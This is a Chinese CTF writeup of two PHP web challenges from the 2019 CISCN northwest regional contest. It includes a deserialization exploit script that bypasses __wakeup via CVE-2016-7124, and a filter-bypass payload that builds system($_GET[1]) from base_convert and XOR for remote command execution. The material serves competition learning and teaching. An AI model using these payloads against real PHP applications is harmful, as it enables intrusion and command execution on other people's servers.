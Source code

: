 ```yaml
---
title: 第十二届全国大学生信息安全竞赛西北赛区 部分题目 Writeup
tags: 
    - Writeup
    - CTF
    - CISCN
date: 2019/4/22
---
```


## JustSoso

{% spoiler 题目源码 %}

```php
// index.php
<?php
error_reporting(0);
$file = $_GET["file"];
$payload = $_GET["payload"];
if(!isset($file)){
    echo 'Missing parameter'.'<br>';
}
if(preg_match("/flag/",$file)){
    die('hack attacked!!!');
}
@include($file);
if(isset($payload)){
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    foreach($query as $value){
        if (preg_match("/flag/",$value)) {
            die('stop hacking!');
            exit();
        }
    }
    $payload = unserialize($payload);
}else{
   echo "Missing parameters";
}
?>
<!--Please test index.php?file=xxx.php -->
<!--Please get the source of hint.php-->
</html>
```

```php
// hint.php
<?php
class Handle{
    private $handle;
    public function __wakeup(){
        foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
    public function __construct($handle) {
        $this->handle = $handle;
    }
    public function __destruct(){
        $this->handle->getFlag();
    }
}

class Flag{
    public $file;
    public $token;
    public $token_flag;

    function __construct($file){
        $this->file = $file;
        $this->token_flag = $this->token = md5(rand(1,10000));
    }

    public function getFlag(){
        $this->token_flag = md5(rand(1,10000));
        echo 'asdf';
        if($this->token === $this->token_flag)
        {
            if(isset($this->file)){
                echo @highlight_file($this->file,true);
            }
        }
    }
}
?>
```

{% endspoiler %}

GET参数中含有file, LFI获得index.php源码, 根据其内容继续获得hint.php源码  
发现含有unserialize函数, 联系hint.php内容, 考察点为反序列化

有三处需要绕过:

1. parse_url 三斜杠绕过, 常规
2. `__wakeup` 绕过，[CVE-2016-7124](https://bugs.php.net/bug.php?id=72663)
3. 每次调用getFlag token_flag都会随机变化，可以将token赋值为token_flag 的引用绕过

{% asset_img EUhNFz4.png Source %}

故exploit如下:

```php
<?php
class Flag{}
class Handle{
    private $handle;
    function __construct($xx){
        $this->handle = $xx;
    }
}

$p = new Flag("flag.php");
$p->token = &$p->token_flag;
$p->file = "flag.php";
$pay = new Handle($p);
echo urlencode(serialize($pay));
```

## love the math

{% spoiler 题目源码 %}

```php
// calc.php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    eval('echo '.$content.';');
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

{% endspoiler %}

观察发现如下限制:

1. payload长度不可超过80
1. 可以执行任何数学函数
1. 有部分字符不可用( `$blacklist` )

由于80这个长度太短, 所以后期应当是通过取其它位置的可控输入点进行执行和输出
应当取能够返回字符串的数学函数, 加以拼接得到期望值
题目过滤了所有除数学函数名意外的英文字符, 所以应当利用纯数字构造payload

观察数学函数的输入输出, 发现涉及到不同进制的数学函数能够返回字符串。  
其中利用base_convert能获取更大的字符集, 但也更长  
原型：`base_convert(number,frombase,tobase)`
可以将字符串转为10进制或其它能够组成纯数字的进制来控制输入

验证: `url:/calc.php?c=base_convert(55490343972,10,36)()`
可以执行phpinfo  

比赛时受师傅的引导，将echo file_get_contents缩短为readfile，成功获得了flag

{% asset_img SlwlDOA.png meme %}

其实应该是可以RCE的

> php > `echo base_convert('system', 36, 10);`
> 1751504350

考虑到进制转换只能转出小写字母, 此处利用php能将字符串互相异或的行为, 能够将多个16进制串进行异或得到大写字母。  
于是目的是：将两个`[a-z0-9]*`字符串异或得到`_GET`,利用`_GET{param}`获取到另一参数中引入的更长字串  
进行fuzz, fuzz代码:

```php
$table = "0123456789abcdefghijklmnopqrstuvwxyz";
for($i = 0; $i < 36; $i++){
    for($j = $i; $j < 36; $j++){
        echo $table[$i]^$table[$j];
        echo " ";
        echo $table[$i]." ".$table[$j];
        echo "\n";
    }
}
// php test.php| strings | grep "_"
// php test.php| strings | grep "G"
// php test.php| strings | grep "E"
// php test.php| strings | grep "T"
```

得到`"1000"^"nwud" == "_GET"`
所以能够构造出一句话payload:
`base_convert(1751504350,28,10)(${decoct(512)^base_convert(862402,10,33)}{1})`  
即`system($_GET[1])`
